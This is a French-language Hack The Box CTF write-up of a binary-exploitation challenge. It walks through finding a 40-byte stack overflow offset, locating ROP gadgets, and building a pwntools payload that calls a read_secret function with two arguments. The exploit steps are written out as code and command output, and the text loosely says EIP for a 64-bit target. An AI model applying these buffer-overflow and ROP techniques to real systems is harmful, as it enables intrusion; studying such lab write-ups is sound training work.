


---

## Write-up (HTB CTF)

### C’est parti **PWN** !

C’est un challenge de PWN, donc **exploitation de binaire**.  
On a la possibilité de faire des `segfault` error, donc on peut essayer de faire un **buffer overflow** :



---

### Contrôle de EIP

On recherche **l’offset exact** qui permet de modifier **EIP** (le registre qui va nous permettre de nous déplacer dans le programme).

Grâce à `pwndbg`, on observe qu’avec **40 `A`**, les 4 `B` qui suivent modifient précisément **EIP** :

```bash
python2 -c 'print "A"*40+"B"*4'
```

➡️ On a donc un **offset de 40**.

---

### Analyse statique de la fonction cible

Avec l’analyse statique, on repère la fonction de validation vers laquelle il va falloir sauter :



Cette fonction attend **deux arguments**.  
Pour les lui fournir avant l’appel, on va utiliser la puissance des **ROP gadgets**.  
Ces gadgets sont des instructions en assembleur déjà présentes dans le binaire, qu’on peut chaîner pour exécuter ce qu’on veut.

---

### Recherche des éléments nécessaires

```bash
objdump -t bypassword_v2 | grep read_secret
```
Résultat :
```
4014bd read_secret
```

Recherche des gadgets :

```bash
ROPgadget --binary bypassword_v2 | grep pop
```

Résultats :
```
0x00000000004017db : pop rdi ; ret
0x00000000004017dd : pop rsi ; ret
```

---

### Petit rappel sur les appels de fonction en x86_64

Avant d’appeler une fonction, on place :
- **Argument 1** dans **RDI**
- **Argument 2** dans **RSI**

Donc, pour ça :
- On `pop` une valeur dans RDI
- Puis `ret` → ce qui permet d’enchaîner le prochain gadget

---

### Construction du payload

**Récupération des gadgets** :

```python
rop = ROP(context.binary)
rdi = rop.find_gadget(["pop rdi", "ret"])[0]
rsi = rop.find_gadget(["pop rsi", "ret"])[0]
read_secret = context.binary.symbols['read_secret']
```

**Création du payload** :

```python
payload = flat(
    b"A" * offset,
    rdi, 0xdeadbeef,
    rsi, 0x1337c0de,
    read_secret
)
```

---
